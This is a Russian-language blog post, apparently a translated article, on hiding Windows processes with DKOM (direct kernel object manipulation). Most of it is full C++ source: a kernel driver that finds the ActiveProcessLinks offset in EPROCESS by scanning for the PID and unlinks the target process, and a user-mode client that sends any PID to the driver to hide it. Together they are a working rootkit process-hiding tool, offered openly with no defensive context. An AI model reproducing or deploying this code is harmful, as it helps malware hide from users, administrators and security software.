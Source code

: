 ```yaml
---
layout: post
title: Сокрытие процесса с помощью DKOM
category: [translations]
tag: [windows, malware]
---
```


DKOM - это техника, используемая некоторыми ядерными руткитами для сокрытия запущенного процесса. 
При сокрытии процесса, используя DKOM, руткит изменяет поля Flink и Blink у ActiveProcessLinks в структуре EPROCESS. 
Чтобы получить доступ к полям ActiveProcessLinks, руткит должен знать его смещение. 
Проблема заключается в том, что смещение ActiveProcessLinks в EPROCESS различается для каждой версии Windows, 
и руткиту необходимо хардкодить смещения и определять версию системы при скрытии процессов.

Однако, я нашел решение этой проблемы. 
После некоторых поисков в интернете, я обнаружил, что поле ActiveProcessLinks всегда находится рядом с полем UniqueProcessId структуры EPROCESS. 
Благодаря этому, мы можем найти расположение ActiveProcessLinks, найдя PID в структуре EPROCESS, таким образом, избегая жестко закодированных смещений.

Следующий драйвер скрывает процессы, используя DKOM, без хардкодинга смещений.

```cpp
#include <ntifs.h>
#include <ntddk.h>
 
UNICODE_STRING DeviceName=RTL_CONSTANT_STRING(L"\\Device\\DKOM_Driver"),SymbolicLink=RTL_CONSTANT_STRING(L"\\DosDevices\\DKOM_Driver");
PDEVICE_OBJECT pDeviceObject;
 
void Unload(PDRIVER_OBJECT pDriverObject)
{
    IoDeleteSymbolicLink(&SymbolicLink);
    IoDeleteDevice(pDriverObject->DeviceObject);
}
 
NTSTATUS DriverDispatch(PDEVICE_OBJECT DeviceObject,PIRP irp)
{
    PIO_STACK_LOCATION io;
    PVOID buffer;
    PEPROCESS Process;
 
    PULONG ptr;
    PLIST_ENTRY PrevListEntry,CurrListEntry,NextListEntry;
 
    NTSTATUS status;
    ULONG i,offset;
 
    io=IoGetCurrentIrpStackLocation(irp);
    irp->IoStatus.Information=0;
    offset=0;
 
    switch(io->MajorFunction)
    {
        case IRP_MJ_CREATE:
            status=STATUS_SUCCESS;
            break;
        case IRP_MJ_CLOSE:
            status=STATUS_SUCCESS;
            break;
        case IRP_MJ_READ:
            status=STATUS_SUCCESS;
        case IRP_MJ_WRITE:
 
            buffer=MmGetSystemAddressForMdlSafe(irp->MdlAddress,NormalPagePriority);
 
            if(!buffer)
            {
                status=STATUS_INSUFFICIENT_RESOURCES;
                break;
            }
 
            DbgPrint("Process ID: %d",*(PHANDLE)buffer);
 
            if(!NT_SUCCESS(status=PsLookupProcessByProcessId(*(PHANDLE)buffer,&Process)))
            {
                DbgPrint("Error: Unable to open process object (%#x)",status);
                break;
            }
 
            DbgPrint("EPROCESS address: %#x",Process);
            ptr=(PULONG)Process;
 
            // Сканируем структуру EPROCESS, для нахождения PID
 
            for(i=0;i<512;i++)
            {
                if(ptr[i]==*(PULONG)buffer)
                {
                    offset=(ULONG)&ptr[i+1]-(ULONG)Process; // ActiveProcessLinks находится рядом с PID
 
                    DbgPrint("ActiveProcessLinks offset: %#x",offset);
                    break;
                }
            }
 
            if(!offset)
            {
                status=STATUS_UNSUCCESSFUL;
                break;
            }
 
            CurrListEntry=(PLIST_ENTRY)((PUCHAR)Process+offset); // Получаем адрес ActiveProcessLinks
 
            PrevListEntry=CurrListEntry->Blink;
            NextListEntry=CurrListEntry->Flink;
 
            // Удаляем целевой процесс из списка процессов
            PrevListEntry->Flink=CurrListEntry->Flink;
            NextListEntry->Blink=CurrListEntry->Blink;
 
            // Указываем поля Flink и Blink на себя
 
            CurrListEntry->Flink=CurrListEntry;
            CurrListEntry->Blink=CurrListEntry;
 
            ObDereferenceObject(Process); // Освобождаем целевой процесс
 
            status=STATUS_SUCCESS;
            irp->IoStatus.Information=sizeof(HANDLE);
 
            break;
 
        default:
            status=STATUS_INVALID_DEVICE_REQUEST;
            break;
    }
 
    irp->IoStatus.Status=status;
 
    IoCompleteRequest(irp,IO_NO_INCREMENT);
    return status;
}
 
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject,PUNICODE_STRING pRegistryPath)
{
    ULONG i;
     
    IoCreateDevice(pDriverObject,0,&DeviceName,FILE_DEVICE_UNKNOWN,FILE_DEVICE_SECURE_OPEN,FALSE,&pDeviceObject);
    IoCreateSymbolicLink(&SymbolicLink,&DeviceName);
 
    pDriverObject->DriverUnload=Unload;
 
    for(i=0;i<IRP_MJ_MAXIMUM_FUNCTION;i++)
    {
        pDriverObject->MajorFunction[i]=DriverDispatch;
    }
 
    pDeviceObject->Flags&=~DO_DEVICE_INITIALIZING;
    pDeviceObject->Flags|=DO_DIRECT_IO;
 
    return STATUS_SUCCESS;
}
```

Следующее юзермод приложение используется для управления драйвером

```cpp
#include <stdio.h>
#include <Windows.h>
 
int main()
{
    HANDLE hFile;
    DWORD ProcessId,write;
 
    hFile=CreateFile("\\\\.\\DKOM_Driver",GENERIC_WRITE,FILE_SHARE_READ|FILE_SHARE_WRITE,NULL,OPEN_EXISTING,0,NULL);
 
    if(hFile==INVALID_HANDLE_VALUE)
    {
        printf("Error: Unable to connect to the driver (%d)\nMake sure the driver is loaded.",GetLastError());
        return -1;
    }
 
    while(1)
    {
        printf("\nEnter PID: ");
        scanf("%d",&ProcessId);
 
        if(!WriteFile(hFile,&ProcessId,sizeof(DWORD),&write,NULL))
        {
            printf("\nError: Unable to hide process (%d)\n",GetLastError());
        }
 
        else
        {
            printf("\nProcess successfully hidden.\n");
        }
    }
 
    return 0;
}
```